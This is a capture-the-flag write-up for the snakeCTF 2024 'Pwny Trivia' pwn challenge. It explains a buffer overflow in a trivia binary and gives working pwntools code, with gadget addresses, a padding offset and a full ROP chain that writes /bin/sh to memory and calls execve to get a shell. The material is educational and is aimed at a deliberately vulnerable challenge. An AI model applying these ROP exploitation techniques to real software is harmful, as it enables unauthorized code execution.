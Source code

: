 # Pwny Trivia [_snakeCTF 2024 Quals_]

**Category**: pwn

## Description

I tried to write my own trivia game b/c I was bored, now I'm considering to sell it!

## Solution

The program is a trivia game that requires the user to answer correctly to 5
questions to win.

By running `strings` on the binary, the hardcoded questions and answers can
easily be found, so it is possible to build a script that always answers
correctly and gets through the game.

By decompiling the program, it can be seen that after having answered correctly
to all the questions, when there is the possibility of sending an arbitrary input,
the call to `read` exposes the program to a buffer overflow.

![Decompiled program in ghidra](images/ghidra.png)

At this point the most straightforward way to get the flag is to build a ROP chain.
Conveniently, there are some functions that provide some gadgets that can be
directly used to build the chain:

We have the following gadgets, that will allow us to write `/bin/sh` in memory
and allow to execute a `execve` syscall:

```python
ADD_RBX_1_MUL_RBX_MOV_RBX_RAX = 0x4011ca # add rbx, 1; mul rbx; mov rbx, rax; ret;
XOR_RBX_RBX = 0x4011dc # xor rbx, rbx; ret;
MOV_RCX_RBX = 0x4011e7 # mov [rcx], rbx;
POP_RCX_XOR_RAX_RCX_SUB_RAX_1 = 0x4011f2 # pop rcx; xor rax, rcx; sub rax, 0x1; ret
POP_RDI_POP_RSI_POP_RDX = 0x401202 # pop rdi; pop rsi; pop rdx; ret;
SYSCALL = 0x40152a # syscall
```

The goal is to write `b"/bin/sh\x00"` in `rbx`, load a writable address in `rcx`
and then write to that address using `MOV_RCX_RBX`. After having `/bin/sh`, all
it takes is to call `execve` and get a shell.

## Writing /bin/sh in `rbx`

```python
def write_bin_sh():
    chain = flat(
        # zeroing rax after last printf in program (prints 0x26 bytes)
        POP_RCX_XOR_RAX_RCX_SUB_RAX_1,
        0x27,
        # now rax = 0
        POP_RCX_XOR_RAX_RCX_SUB_RAX_1, b'0bin/sh\x00', # '0' gets decremented and becomes '/'
        # zeroing rbx
        XOR_RBX_RBX,
        # moving /bin/sh\x00 to rbx
        ADD_RBX_1_MUL_RBX_MOV_RBX_RAX
    )

    return chain
```

## Writing in memory and calling `execve`

An arbitrary writable address can be chosen, for example `0x407b20` which is in
BSS, and loaded into `rcx` by using `POP_RCX_XOR_RAX_RCX_SUB_RAX_1`. At this
point `MOV_RCX_RBX = mov [rcx], rbx` writes `/bin/sh\x00` in memory.

The last step needed is loading `0x3b` in `rax` in order to perform a `execve`.
If the binary is debugged in `gdb` it can be seen that after the execution of the
chain until this point, `rax` contains the value `0x68732f6e291f3a`, so by
sending `0x68732f6e291f3a ^ (0x3b + 1)` as a payload (+1 because the gadget
contains `sub rax 1`) we get the value we want in `rax`. With
`POP_RDI_POP_RSI_POP_RDX` the registers used to store the arguments can be modified, and finally with
`SYSCALL` a shell gets spawned. The complete chain looks like:

```python
BSS = 0x407b20
MEM = BSS + 500

offset = 136
chain = flat(
    offset * b'A',
    write_bin_sh(),
    # write addr where to write in rcx
    POP_RCX_XOR_RAX_RCX_SUB_RAX_1,
    MEM,
    # write /bin/sh in memory
    MOV_RCX_RBX,
    # load in rax 0x3b to perform execve
    POP_RCX_XOR_RAX_RCX_SUB_RAX_1,
    0x68732f6e291f3a ^ (0x3b + 1), # value in rax after previous ops ^ (value we want + 1 because of sub)
    # load args in registers for execve
    POP_RDI_POP_RSI_POP_RDX,
    MEM,    # *filename = addr of /bin/sh written in memory
    0,      # argv
    0,      # envp
    SYSCALL # profit
)
```
